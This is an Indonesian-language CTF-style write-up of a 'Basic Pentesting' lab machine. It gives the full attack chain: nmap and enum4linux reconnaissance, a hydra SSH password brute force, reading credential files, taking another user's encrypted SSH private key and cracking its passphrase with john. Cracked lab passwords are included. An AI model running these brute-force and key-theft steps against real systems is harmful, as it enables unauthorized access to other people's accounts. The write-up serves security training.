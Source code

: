 # Basic Pentesing Write Up

## Tools

1. nmap
2. enum4linux
3. hydra
4. ssh2john
5. john

## Walk through

### nmap

```bash
nmap -sV 'IpServer'
```

#### hasil

```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-29 16:07 WIB
Nmap scan report for 10.10.124.27 (10.10.124.27)
Host is up (0.31s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8080/tcp open  http        Apache Tomcat 9.0.7
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.64 seconds
```

kita mendapatkan beberapa open port dalam server tersebut dan terdapat smb port terbuka, marikita enumerate

### enum4linux

```bash
enum4linux -a 'IpServer'
```

#### hasil

```bash
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)

```

kita mendapatkan option username yang mana kita pakai untuk login ke ssh.Mari kita gunakan kedua username tersebut untuk memaksa masuk menggunakan metode `Bruteforce`.

### hydra

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://IpServer
```

#### hasil

```bash
[22][ssh] host: 10.10.124.27   login: jan   password: armando
1 of 1 target successfully completed, 1 valid password found
```

kita mendapatkan password dari username jan, mari kita akses ssh dari server tersebut menggunakan username `jan` dan password `armando`

### ssh

```bash
ssh jan@IpServer -p 22
```

setelah kita masuk kedalam ssh dari server tersebut kita gali informasi didalamnya.

```bash
$ cat /etc/passwd

kay:x:1000:1000:Kay,,,:/home/kay:/bin/bash
jan:x:1001:1001::/home/jan:/bin/bash
```

kita mendapatkan 2 user yang sama.Mari kita test cek directory home

```bash
$ ls -la ..

drwxr-xr-x  4 root root 4096 Apr 19  2018 .
drwxr-xr-x 24 root root 4096 Apr 23  2018 ..
drwxr-xr-x  2 root root 4096 Apr 23  2018 jan
drwxr-xr-x  5 kay  kay  4096 Apr 23  2018 kay

```

kita mendapat directory bernama kay yang mana memiliki akses root, mari kita coba akses.

```bash
$ cd ../kay && ls -la

drwxr-xr-x 5 kay  kay  4096 Apr 23  2018 .
drwxr-xr-x 4 root root 4096 Apr 19  2018 ..
-rw------- 1 kay  kay   756 Apr 23  2018 .bash_history
-rw-r--r-- 1 kay  kay   220 Apr 17  2018 .bash_logout
-rw-r--r-- 1 kay  kay  3771 Apr 17  2018 .bashrc
drwx------ 2 kay  kay  4096 Apr 17  2018 .cache
-rw------- 1 root kay   119 Apr 23  2018 .lesshst
drwxrwxr-x 2 kay  kay  4096 Apr 23  2018 .nano
-rw------- 1 kay  kay    57 Apr 23  2018 pass.bak
-rw-r--r-- 1 kay  kay   655 Apr 17  2018 .profile
drwxr-xr-x 2 kay  kay  4096 Apr 23  2018 .ssh
-rw-r--r-- 1 kay  kay     0 Apr 17  2018 .sudo_as_admin_successful
-rw------- 1 root kay   538 Apr 23  2018 .viminfo
```

kita melihat bahwa ada directory `.ssh` didalam,mari coba kita akses dan buka semua file didalam.

```bash
$ ls -la

-rw-rw-r-- 1 kay kay  771 Apr 23  2018 authorized_keys
-rw-r--r-- 1 kay kay 3326 Apr 19  2018 id_rsa
-rw-r--r-- 1 kay kay  771 Apr 19  2018 id_rsa.pub

$ cat id_rsa

-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,6ABA7DE35CDB65070B92C1F760E2FE75

IoNb/J0q2Pd56EZ23oAaJxLvhuSZ1crRr4ONGUAnKcRxg3+9vn6xcujpzUDuUtlZ.........
```

setelah kita sedikit explore kita mendapatkan ssh key , mari kita copy string ini dan simpan untuk kita coba akses ssh servernya dengan nama `kay_ssh_key`.

```bash
$ chmod 600 kay_ssh_key
$ ssh -i kay_ssh_key kay@IpServer

Enter passphrase for key 'kay_ssh_id':
```

ternyata ada password dalam ssh key tersebut, kita coba bruteforce password tersebut.

```bash
$ ssh2john kay_ssh_id > sshkeyshash.txt
$ john --wordlist=/usr/share/wordlists/rockyou.txt sshkeyshash.txt

Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (kay_ssh_id)
```

kita mendapatkan password dari username kay yaitu `beeswax`. Mari kita coba akses kembali.

```bash
$ ssh -i kay_ssh_key kay@IpServer

Enter passphrase for key 'kay_ssh_id': beeswax
```

dan kita mendapatkan akses dari user kay dan explore didalamnya.

```bash
$ ls -la

drwxr-xr-x 5 kay  kay  4096 Apr 23  2018 .
drwxr-xr-x 4 root root 4096 Apr 19  2018 ..
-rw------- 1 kay  kay   782 Oct 29 06:41 .bash_history
-rw-r--r-- 1 kay  kay   220 Apr 17  2018 .bash_logout
-rw-r--r-- 1 kay  kay  3771 Apr 17  2018 .bashrc
drwx------ 2 kay  kay  4096 Apr 17  2018 .cache
-rw------- 1 root kay   119 Apr 23  2018 .lesshst
drwxrwxr-x 2 kay  kay  4096 Apr 23  2018 .nano
-rw------- 1 kay  kay    57 Apr 23  2018 pass.bak
-rw-r--r-- 1 kay  kay   655 Apr 17  2018 .profile
drwxr-xr-x 2 kay  kay  4096 Apr 23  2018 .ssh
-rw-r--r-- 1 kay  kay     0 Apr 17  2018 .sudo_as_admin_successful
-rw------- 1 root kay   538 Apr 23  2018 .viminfo

$ cat pass.bak

heresareallystrongpasswordthatfollowsthepasswordpolicy$$
```

kita mendapatkan password yang disembunyikan si pembuat server

`heresareallystrongpasswordthatfollowsthepasswordpolicy$$`
